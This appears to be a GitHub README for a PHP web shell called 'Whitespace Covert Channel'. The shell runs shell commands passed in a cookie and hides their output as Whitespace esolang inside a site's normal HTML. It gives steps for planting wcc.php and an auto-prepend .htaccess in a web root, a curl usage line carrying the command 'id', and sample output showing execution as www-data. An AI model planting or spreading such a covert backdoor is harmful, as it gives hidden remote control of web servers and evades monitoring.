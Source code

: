 # Whitespace Covert Channel

Executes shell commands and returns output in Whitespace Esolang over original HTML.

## Requirements
* A decent shell (zsh/bash)
* Curl
* Whitespace Interpreter (used original haskell linux binary from http://compsoc.dur.ac.uk/whitespace/download.php)
* PHP inflate tool (in this folder)

## Installation
* Drop wcc.php into the document root folder
* Drop .htaccess into the document root folder OR add php_value auto_prepend_file "wcc.php"
* Enjoy

## Usage
    curl -s -H 'Cookie: wcc_cmd=id' http://127.0.0.1/wcc/ -o temp.ws && ./wspace temp.ws | head -n -3 | php inflate.php

## Output
    = WCC = Command output ==========================
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    = WCC = EOF =====================================
